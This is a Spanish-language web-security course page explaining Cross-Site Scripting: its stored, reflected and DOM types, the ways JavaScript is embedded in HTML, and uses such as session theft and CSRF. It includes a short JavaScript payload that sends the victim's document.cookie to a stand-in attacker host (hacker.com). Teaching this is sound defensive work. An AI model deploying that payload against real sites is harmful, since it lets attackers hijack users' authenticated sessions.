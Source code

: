 ```yaml
---
title : "Cross-Site Scripting"
lead: ""
date: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 303
---
```


El Cross-Site Scripting, o XSS (incluido en el punto 3 del OWASP Top 10), se refiere a una clase de vulnerabilidades que
intentan introducir código JavaScript en un sitio web, el cual será ejecutado en el navegador de otros usuarios.
Dependiendo de la aplicación en específico, las repercusiones de esto varían desde meras molestias hasta
la completa ruptura de confidencialidad e integridad del sistema.

Existen 3 tipos:
* **Almacenado**: El payload queda almacenado en algún lado y no es necesario estar activamente atacando a la víctima.
  Una vez que ella acceda a este, se ejecutará el código malicioso.

* **Reflejado**: El payload no se almacena permanentemente, sino que viene codificado en alguna variable
  (como un parámetro GET).

* **DOM**: Este tipo de XSS surge cuando el código JavaScript de la página contiene una vulnerabilidad que permite
 inyectar más codigo JavaScript a partir de variables reflejadas o almacenadas. 

## JavaScript

JavaScript (JS) es un lenguaje de programación orientado a objetos que usualmente se utiliza para añadir
componentes dinámicas a un sitio web. [Aquí](https://www.w3schools.com/js/DEFAULT.asp)
pueden encontrar un tutorial de JS si lo necesitan.
El código JS en una página se ejecuta en el navegador del usuario, no en el servidor.
Existen varias formas _"oficiales"_ de insertar JS en un sitio. El primero es tener el código directamente en
el HTML, delimitado por tags `<script></script>`, por ejemplo:

    <html>
        <head>
            <script>
                ...code...
            </script>
        </head>
    </html>

La otra forma es hacer una referencia a un archivo que contenga el código, como por ejemplo:

    <html>
        <head>
            <script src="/code.js"></script>
        </head>
    </html>

Finalmente, se puede introducir JS bajo ciertos eventos, como `onclick`, `onerror`, `onmouseover`, etc.

    <html>
        <body>
            <button onclick="...code..."></button>
        </body>
    </html>

Existen otras formas de introducir código JS a un sitio web, pero se utilizan más que nada en ataques donde las
formas comunes están siendo bloqueadas o filtradas. Estas se escapan del ámbito de este curso, pero si están
interesados, pueden revisar la
[guía de evasión de filtros XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) de OWASP.

## Ejemplos

Uno de los usos más peligrosos de este tipo de ataques es el robo de sesiones. El código introducido toma la
cookie de sesión de la víctima y se la envía al atacante. Luego él puede simplemente copiar esta cookie en
su navegador, con lo cual obtiene acceso autenticado como la víctima. El código a continuación logra hacer esto:

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "https://hacker.com/", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("cookie=" + document.cookie);

Otro uso es el Cross-Site Request Forgery (CSRF). Estos ataques intentan impersonar a la víctima, enviando
consultas en su nombre. Esto funciona ya que las consultas hechas a través de JavaScript también llevan las cookies
y parámetros de sesión del usuario, por lo que el atacante tiene el potencial de ganar los mismos permisos que
la víctima. Esto se podría utilizar, por ejemplo, para realizar acciones en nombre del administrador, con lo cual
crear otro usuario con permisos de administrador.

